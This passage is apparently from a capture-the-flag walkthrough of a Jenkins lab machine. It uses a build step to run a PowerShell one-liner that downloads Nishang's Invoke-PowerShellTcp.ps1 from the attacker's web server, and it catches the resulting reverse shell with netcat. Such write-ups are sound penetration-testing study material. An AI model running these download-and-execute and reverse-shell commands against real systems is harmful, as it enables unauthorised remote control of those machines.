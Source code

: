 Under console output, we can see that there is output for the command we used earlier.

<img src="images/05.Alfred/08.png" height="300">

<img src="images/05.Alfred/09.png">

# Exploitation
We will download [Nishang](https://github.com/samratashok/nishang) into our machine and use the [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 "Invoke-PowerShellTcp.ps1") to get the reverse shell.
```
git clone https://github.com/samratashok/nishang.git
```
```
cd nishang
```
Start the python webserver to host the file so that we can download it to the target machine. 
```
python -m http.server
```
<img src="images/05.Alfred/10.png">

Now copy the following command into the build section where we can execute commands. This command downloads the powershell script from our webserver and runs it on the target machine using the ip address and port that we specify as arguments. We will be using our machine ip address and the port that we want to use for the reverse shell.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.29.149:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.29.149 -Port 3333
```
<img src="images/05.Alfred/11.png">

Save the changes and apply.

In a new terminal window, use netcat to listen on port 3333.

```
nc -lnvp 3333
```
<img src="images/05.Alfred/12.png" height="100">

Now build the project.

<img src="images/05.Alfred/13.png" height="400">

And we get a reverse shell!

<img src="images/05.Alfred/14.png" height="500">

<img src="images/05.Alfred/15.png">

Now we will elevate our shell to a meterpreter reverse shell.

